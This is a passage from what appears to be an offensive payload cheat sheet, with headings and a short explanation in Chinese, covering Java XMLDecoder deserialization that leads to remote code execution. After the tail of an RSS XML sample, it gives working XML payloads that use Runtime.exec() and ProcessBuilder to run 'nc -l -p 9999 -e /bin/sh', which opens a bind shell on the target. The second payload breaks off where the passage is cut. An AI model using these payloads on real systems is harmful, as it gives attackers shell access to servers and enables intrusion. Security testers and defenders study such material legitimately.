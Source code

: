 ```xml-dtd
<pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
</item>
</channel>
</rss>
```

### Java XMLDecoder XEE to RCE

XMLDecoder是一个基于XML消息创建对象的Java类。如果恶意用户可以通过应用程序能在readObject函数的调用中执行任意数据，就可以在服务器上进行代码执行。

#### Using Runtime().exec()

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.7.0_21" class="java.beans.XMLDecoder">
 <object class="java.lang.Runtime" method="getRuntime">
      <void method="exec">
      <array class="java.lang.String" length="6">
          <void index="0">
              <string>/usr/bin/nc</string>
          </void>
          <void index="1">
              <string>-l</string>
          </void>
          <void index="2">
              <string>-p</string>
          </void>
          <void index="3">
              <string>9999</string>
          </void>
          <void index="4">
              <string>-e</string>
          </void>
          <void index="5">
              <string>/bin/sh</string>
          </void>
      </array>
      </void>
 </object>
</java>
```

#### ProcessBuilder

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.7.0_21" class="java.beans.XMLDecoder">
  <void class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="6">
      <void index="0">
        <string>/usr/bin/nc</string>
      </void>
      <void index="1">
         <string>-l</string>
      </void>
      <void index="2">
         <string>-p</string>
      </void>
      <void index="3">
         <string>9999</string>
      </void>
      <void index="4">
         <string>-e</string>
      </void>
      <void index="5">
```